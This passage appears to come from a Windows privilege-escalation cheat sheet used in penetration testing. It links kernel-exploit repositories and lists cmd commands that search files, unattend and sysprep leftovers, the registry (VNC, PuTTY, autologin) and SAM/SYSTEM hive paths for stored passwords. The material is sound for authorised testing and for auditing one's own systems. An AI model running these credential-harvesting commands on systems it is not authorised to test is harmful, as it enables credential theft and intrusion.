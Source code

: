 https://github.com/abatchy17/WindowsExploits

https://github.com/SecWiki/windows-kernel-exploits






### Passwords and Interesting Files

There might be cleartext, base64, or hashed passwords somewhere on the machine to find. Some of this will output a lot of garbage so maybe echo it into a file and look it over later.


First look for regular file types containing the string password
```cmd
findstr /si password *.xml *.ini *.txt *.config 2>nul
cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
findstr /spin "password" *.*
```

Check .config or other interesting file types for those strings 
```cmd
dir /s *pass* == *cred* == *vnc* == *.config*
dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
where /R C:\ user.txt
where /R C:\ *.ini
```

Sometimes these get left behind and might have passwords inside them
```cmd
c:\sysprep.inf
c:\sysprep\sysprep.xml
c:\unattend.xml
%WINDIR%\Panther\Unattend\Unattended.xml
%WINDIR%\Panther\Unattended.xml

dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```

Is VNC installed?
```cmd
dir c:\*vnc.ini /s /b
dir c:\*ultravnc.ini /s /b 
dir c:\ /s /b | findstr /si *vnc.ini
```

Check the registry for SNMP, VNC, Putty, autologin and other passwords.
```cmd
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
reg query "HKCU\Software\ORL\WinVNC3\Password"
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
```

Check for SAM and SYSTEM files access
```cmd
%SYSTEMROOT%\repair\SAM
%SYSTEMROOT%\System32\config\RegBack\SAM
%SYSTEMROOT%\System32\config\SAM
%SYSTEMROOT%\repair\system
%SYSTEMROOT%\System32\config\SYSTEM
%SYSTEMROOT%\System32\config\RegBack\system
```
Whats in inetpub if its there? web.config files might have passwords
```cmd
dir /a C:\inetpub\
dir /s web.config
C:\Windows\System32\inetsrv\config\applicationHost.config
```
